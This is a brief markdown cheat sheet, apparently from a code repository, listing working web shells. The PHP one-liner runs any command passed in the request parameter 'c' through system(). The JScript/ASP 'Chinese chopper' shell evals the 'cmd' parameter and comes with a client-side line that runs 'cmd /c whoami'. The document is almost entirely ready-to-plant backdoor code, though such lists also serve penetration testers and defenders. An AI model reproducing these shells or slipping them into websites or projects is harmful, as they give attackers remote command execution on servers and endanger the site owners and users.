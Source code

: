 # Web Shells




## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```




## ASP



### JScript

Chinese chopper:

```csharp
 // Server-side
<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["cmd"],"unsafe");}</script>
 // Client-side
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())
```
